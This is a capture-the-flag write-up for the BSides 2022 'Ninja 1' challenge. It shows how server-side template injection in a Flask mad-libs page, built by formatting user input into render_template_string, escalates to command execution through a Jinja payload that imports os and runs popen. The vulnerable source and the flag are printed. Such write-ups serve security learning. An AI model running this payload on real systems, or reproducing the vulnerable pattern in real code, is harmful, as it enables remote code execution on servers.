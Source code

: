 ```yaml
---
title: bsides2022 – Ninja 1
tags: python, flask, injection
---
```


## Challenge

> Part 1 of 3: tell me a secret

The provided website showed the following:

```
I just got back from a ___None___(adj1) party with EverSec.
Can you believe we got to eat __None___(adj2) pizza in ____None___(place)?!
Everyone got to choose their own toppings.
I made ___None___(topping1) and __None___(topping2) pizza, which is my favorite! How fun!
If that wasn't good enough already, ___None____(person) was there teaching exploits!
```

## Background

Providing any of the keys in the HTTP query will fill them instead of `None`. So requesting `[URL]?adj1=foo` returns:

```
I just got back from a ___foo___(adj1) party with EverSec. […]
```

Both multiple underscores and `None` indicates that python is at work here.

## Solution

Requesting {%raw%}`[URL]?adj1={{2*3}}`{%endraw%} returns:
```
I just got back from a ___6___(adj1) party with EverSec. […]
```

So it seems like when we escape anything with two curly braces, we have python code execution. And with a bit more exploration, we can get to full code execution: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('[command]').read()}}`{%endraw%}.

Let's see what files we can access: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`{%endraw%} returns `ninja.py`.

Let's get the contents of that file: {%raw%}`[URL]?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('cat ninja.py').read()}}`{%endraw%}:

```python3
from flask import Flask, request, render_template_string
app = Flask(__name__)
app.secret_key = 'flag\{ultimate_jinja_storm3\}'
@app.route('/')
def index():
    a = request.args.get('adj1') or None
    b = request.args.get('adj2') or None
    c = request.args.get('place') or None
    d = request.args.get('topping1') or None
    e = request.args.get('topping2') or None
    f = request.args.get('person') or None
    template = ''' <h1>Mad libs</h1><br><p>I just got back from a ___{a}___(adj1) party with EverSec. Can you believe we got to eat __{b}___(adj2) pizza in ____{c}___(place)?! Everyone got to choose their own toppings. I made ___{d}___(topping1) and __{e}___(topping2) pizza, which is my favorite! How fun! If that wasn't good enough already, ___{f}____(person) was there teaching exploits! </p> '''.format(a = a, b = b, c=c, d=d, e=e, f=f)
    return render_template_string(template)
if __name__ == '__main__': 
    pp.run(host='0.0.0.0', port=8080)
```

This also explains the vulnerability: flask's `render_template_string` escapes code with two curly braces.

And we have our flag: `flag\{ultimate_jinja_storm3\}`
